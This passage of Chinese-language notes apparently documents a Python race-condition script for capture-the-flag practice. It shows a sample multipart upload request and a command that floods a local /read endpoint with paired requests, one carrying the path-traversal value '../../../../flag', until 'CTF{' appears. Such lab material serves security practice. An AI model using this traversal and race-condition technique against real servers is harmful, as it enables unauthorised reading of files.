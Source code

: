 把Recognize automatically based on message headers改成Use the platform default (UTF-8)

然后重新发包就可以成功识别出中文

如下:

```
POST /upload HTTP/1.1
Host: 127.0.0.1:9046
Accept: */*
Accept-Encoding: gzip, deflate, br
User-Agent: Python/3.10 aiohttp/3.11.14
Content-Length: 2068
Content-Type: multipart/form-data; boundary=ae860937cbd24cc3bbeb4139442a52dc
Connection: keep-alive

--ae860937cbd24cc3bbeb4139442a52dc
Content-Type: image/jpeg
Content-Disposition: form-data; name="this-is-upload-key"; filename="this-is-upload-filename"

...这里是PNG的数据,此处省略...
--ae860937cbd24cc3bbeb4139442a52dc
Content-Type: text/plain; charset=utf-8
Content-Disposition: form-data; name="user"

我的世界
--ae860937cbd24cc3bbeb4139442a52dc
Content-Type: text/plain; charset=utf-8
Content-Disposition: form-data; name="women"

你好世界
--ae860937cbd24cc3bbeb4139442a52dc--
```

## 例子二:

python310.exe new.py -m1 get -m2 get -u1 http://127.0.0.1:9046/read -u2 http://127.0.0.1:9046/read -p1 "name=aaa" -p2 "name=../../../../flag" --rate 1:1  -r 1000000 -e "CTF{"  --state async -t 10 --batch 1000

超过延迟10s的包就放掉

然后连续发送两个get包

交叉发送

总发包量2*batch

检测到CTF{字符串就结束条件竞争

### 其他:做个开发笔记跟脚本无关

**复用Session减少连接开销**

- 在并发请求（如条件竞争漏洞测试）时，复用`requests.Session()`或`aiohttp.ClientSession`
